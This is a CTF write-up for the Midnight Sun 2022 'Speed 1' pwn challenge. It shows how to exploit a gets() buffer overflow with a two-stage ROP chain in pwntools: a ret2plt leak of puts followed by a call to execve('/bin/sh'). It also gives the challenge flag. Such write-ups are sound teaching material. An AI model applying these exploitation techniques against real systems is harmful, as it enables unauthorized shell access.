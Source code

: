Midnight Sun CTF Quals 2022 - Speed 1 (PWN)
==

We are given a 64 bits binary with it's libc, with the following protections :

![](https://i.imgur.com/Nei6IxH.png)

No canary, no PIE (Position Independent Executable) and NX enable with a Partial RELRO.

The decompiled main function is the following : 

```c
int main(void)
{
    char buffer [32];
  
    setvbuf(stdin,(char *)0x0,2,0);
    setvbuf(stdout,(char *)0x0,2,0);
    alarm(0x3c);
    print_banner();
    printf("b0fz: ");
    gets(buffer);
    return 0;
}
```

There a call to gets() function which is vulnerable to buffer overflow because it doesn't check the size of input.

So it's clear that the vulnerability to exploit is a buffer overflow.

# ret2plt

We are going to make a **ret2plt** to leak the address of a libc function, in our case puts, the we'll return at the beginning of the program and make our ropchain.

First stage will be to leak puts address in libc, so we're going to put in **RDI** (argument to puts) the address puts in **GOT** then call puts in **PLT**. After this we'll jump back to the beginning of **main()**.

But we first need to patch our binary with **pwninit** so the binary will use the libc given. Just launch the following command : 

```sh
pwninit --bin speed1 --libc libc.so.6
```

Now we can begin our exploit. So to overwrite **RIP** we need a padding of 40, 32 to fill the buffer, 8 to overwrite **RBP**. So let's build the first stage : 

```py
PADDING = b'A'*40
POP_RDI = 0x4012b3
POP_RSI = 0x4012b1
BIN_SH  = 0x1b45bd
MAIN    = 0x4011cf

first_stage = flat({
        PADDING,
        p64(POP_RDI),
        p64(elf.got.puts),
        p64(elf.plt.puts),
        p64(MAIN)
    })
```

So now the binary will leak the address of puts in libc and we can parse it and get libc base like that for example : 

```py
puts_leak = int(bytes.hex(r.recv()[0:6][::-1]), 16)
libc.address = puts_leak - libc.symbols.puts
```

# ret2execve

Now comes to part where I blocked for some minutes because I first tried to make a **ret2libc** with a call to **system** but unfortunately it hasn't worked for me at first try. So I didn't bother with it and try something I never tried. And I guess we can call this "technique" a **ret2execve**.

So we take a look an the arguments that takes **execve()** syscall.

![](https://i.imgur.com/lJZjHfT.png)
![](https://i.imgur.com/hjgfOC5.png)

So our command is stored in **RDI**. By making a **POP RDI** we can put our string **/bin/sh**. But we can see that the syscall has an **argv** to a random value in libc : 

![](https://i.imgur.com/2lx87SI.png)

So we need to set **RSI** to 0 then our call is equivalent to **execve("/bin/sh", NULL, NULL)**. So we are lucky there's a gadget which makes a **POP RSI** ; **POP R15**. So now we just need to build our second stage payload : 

```py
second_stage = flat({
        PADDING,
        p64(POP_RDI),
        p64(libc.address + BIN_SH),
        p64(POP_RSI),
        p64(0x0),
        p64(0x0),
        p64(execve),
        p64(exit_func)
    })
```

Now, we can launch the [exploit](https://github.com/expressitoo/Cybersecurity/blob/main/Midnight%20Sun%20CTF%20Quals%202022/Speed1/files/exploit.py), get a shell and get the flag : 

![](https://i.imgur.com/Zy8yDzl.png)

Flag : **`midnight{b3ee4fd1e8b331a237b234395d1ad0a0}`**
